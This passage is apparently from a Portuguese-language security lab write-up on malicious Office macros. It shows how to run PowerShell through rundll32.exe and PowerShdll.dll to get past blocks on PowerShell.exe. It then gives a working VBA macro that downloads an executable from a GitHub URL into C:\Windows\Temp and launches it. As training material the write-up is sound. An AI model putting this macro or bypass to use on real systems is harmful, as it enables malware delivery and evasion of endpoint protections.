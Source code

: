 No Kali, temos a requisic"ao feita pelo programa normalmente encerrando a task.

## Task \x23

<center><img src="/img/std/dojo/dojo-81.png"></center>

Esta task deixa as coisas muito interessantes a partir do momento que utilizaremos o `rundll32.exe` que nos permite rodar um programa através de uma `DLL`.

Em resumo, uma `DLL` (Dynamic Link Library) são bibliotecas que contém instruções para outros programas, de forma grosseira, equivalente aos arquivos `.so` no Linux. Estes arquivos não necessariamente precisam ter a extensão `.dll`, também podem ter as extensões `.ocx` (ActiveX Controls), `.cpl` (Control Panel) e `.drv` (Device Drivers).

Acontece que, diferente dos arquivos `.exe`, uma DLL não é executável diretamente, porém o `rundll32.exe` pode fazer este papel chamando diretamente uma DLL. Mas onde isso pode ser uma vantagem?

Vamos supor que agum software de proteção esteja bloqueando a execução do `PowerShell.exe`, neste caso, não será possível executar o PS, porém e se o rodarmos diretamente por uma DLL?

Aí entra o `runndll32`, que nos auxilia nesta tarefa (o que também não é 100% de garantia, mas pode fazer o `bypass` de certas proteções).

Na versão do Windows que estou utilizando no Lab `Windows 10 21H1`, não existe a DLL `PowerShdll.dll`, porém, com uma simples pesquisa, foi possível encontrá-lo [neste](https://github.com/p3nt4/PowerShdll) GitHub. Ao adicioná-lo no diretório `C:\Windows\System32`, é possível chamá-lo através do rundll32 com o comando `rundll32 PowerShdll.dll,main` conforme abaixo.

<center><img src="/img/std/dojo/dojo-82.png"></center>

Logo, o que precisamos fazer em nossa `Macro` é utilizar exatamente este comando seguido do script, a macro ficou desta forma:

```visualbasic
Sub Download_exec()
pid = Shell("rundll32.exe PowerShdll.dll,main (New-Object System.Net.WebClient).DownloadFile('https://github.com/h41stur/dojo/blob/main/semana_04/client.exe?raw=true','C:\Windows\Temp\client.exe')", 1)
pid2 = Shell("rundll32.exe PowerShdll.dll,main  Start-Process ('C:\Windows\Temp\client.exe')", 1)
End Sub
```
Ao executar a macro, temos novamente a execução do PowerShell e o Download seguido da execução do programa.
